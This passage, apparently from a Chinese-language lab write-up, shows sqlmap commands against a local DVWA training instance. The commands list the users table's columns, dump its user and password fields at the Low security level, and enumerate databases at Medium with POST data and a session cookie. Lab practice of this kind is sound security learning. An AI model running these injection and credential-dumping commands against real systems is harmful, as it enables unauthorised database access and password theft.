 
```sql
sqlmap -u "http://192.168.1.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"  --cookie "security=low; PHPSESSID=5bel9eq7h1tenbo6j15iu38ij5" -D dvwa -T users --column

```


![20190502234423.png](../post_images/f34c5ac9cdacf2d54605699d2f929d0a.png)


```sql
sqlmap -u "http://192.168.1.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"  --cookie "security=low; PHPSESSID=5bel9eq7h1tenbo6j15iu38ij5" -D dvwa -T users -C user,password --dump

```


![20190502235017.png](../post_images/1f7e63455451f868ca66288c119aa22f.png)


### 使用sqlmap进行Medium等级的注入


```sql
sqlmap -u "http://192.168.1.2/dvwa/vulnerabilities/sqli"  --data "id=1&Submit=Submit" --cookie "security=medium; PHPSESSID=5bel9eq7h1tenbo6j15iu38ij5" --dbs

```


